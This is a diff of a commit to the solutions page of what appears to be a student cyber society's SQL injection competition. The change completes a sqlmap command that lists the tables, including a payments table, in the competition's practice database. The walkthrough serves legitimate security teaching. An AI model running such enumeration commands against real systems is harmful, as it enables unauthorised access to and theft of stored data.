

Before and after one commit to CyberSoc-Newcastle/sql-injection-competition, a Markdown page: competition/solutions.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/competition/solutions.md
+++ b/competition/solutions.md
@@ -161,7 +161,7 @@ available databases [3]:
 
 From the output above, you could see that the database being used is __geordie_boat_rentals_ltd__.
 
-You could also see that the database contained a table called `payments`, related to financial information, by running the command `https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd --tables`. This would return:
+You could also see that the database contained a table called `payments`, related to financial information, by running the command `sqlmap -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd --tables`. This would return:
 ```
 Database: geordie_boat_rentals_ltd
 [2 tables]
````
